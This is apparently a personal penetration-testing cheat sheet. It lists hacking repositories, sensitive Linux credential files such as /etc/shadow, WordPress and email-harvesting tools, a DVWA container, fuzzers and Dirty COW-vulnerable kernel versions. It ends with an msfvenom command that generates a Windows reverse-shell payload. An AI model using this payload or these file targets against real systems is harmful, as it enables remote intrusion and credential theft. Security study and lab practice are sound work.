 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

# Important Linux files
/etc/passwd
/etc/shadow
/etc/login.defs

# Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

#CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

# Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt


# DOCKER
## DVWA
https://github.com/ethicalhack3r/DVWA.git
docker run --rm -it -p 8000:80 vulnerables/web-dvwa
## Apache
httpd 
/usr/local/apache2/htdocs/index.html


# FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz


#Dirty COW Kernels
    4.8.0-26.28 for Ubuntu 16.10
    4.4.0-45.66 for Ubuntu 16.04 LTS
    3.13.0-100.147 for Ubuntu 14.04 LTS
    3.2.0-113.155 for Ubuntu 12.04 LTS
    3.16.36-1+deb8u2 for Debian 8
    3.2.82-1 for Debian 7
    4.7.8-1 for Debian unstable


## Different address spaces in memory are organzed by memory maps; to list:
cat /proc/self/maps

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
